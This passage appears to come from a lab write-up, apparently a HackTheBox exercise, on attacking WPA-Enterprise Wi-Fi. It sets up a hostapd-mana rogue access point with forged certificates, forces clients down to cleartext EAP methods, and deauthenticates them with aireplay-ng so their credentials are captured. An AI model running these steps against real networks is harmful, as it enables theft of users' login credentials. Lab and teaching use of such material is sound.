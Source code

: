 **Notes:**

- `eap_user_file` dictates inner method order (your “downgrade lever”).
    
- `mana_*` enables KARMA/WPE capture and credential logging.
    

#### 4.2 Control negotiation order

`hostapd.eap_user`:

```ini
* TTLS,PEAP,TLS,MD5,GTC
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MD5 "challenge1234" [2]
```

This prioritizes **TTLS‑PAP** then **GTC**, falling back to others. The string `challenge1234` will be used during key generation.

#### 4.3 Generate crypto material

```bash
# DH params
$ openssl dhparam -out dh.pem 2048

# CA key & cert
$ openssl genrsa -out ca-key.pem 2048
$ openssl req -new -x509 -nodes -days 100 -key ca-key.pem -out ca.pem

# Server key + CSR (note: produces a key+CSR in same file here)
$ openssl req -newkey rsa:2048 -nodes -days 100 -keyout server-key.pem -out server-key.pem
# Sign server cert with CA
$ openssl x509 -req -days 100 -set_serial 01 -in server-key.pem -out server.pem -CA ca.pem -CAkey ca-key.pem
```

Match DN fields to the real AP’s cert where possible.

#### 4.4 Launch rogue AP & entice clients

```bash
# Start rogue AP
$ hostapd-mana hostapd.conf

# In another terminal, watch both APs & STAs
$ airodump-ng wlan0mon -c 1

# If needed, push clients off real AP
$ sudo aireplay-ng -0 6 -a 9C:9A:03:39:BD:7A -c 16:C5:68:79:A8:12 wlan0mon
```

**Successful downgrade indicators** (hostapd‑mana output):

- Identity lines (e.g., `MANA EAP Identity Phase 0/1: HTB\Sentinal`).
    
- **GTC** or **TTLS‑PAP** prompts and **cleartext credentials**.
    
- Credentials also logged to `credentials.creds`.
    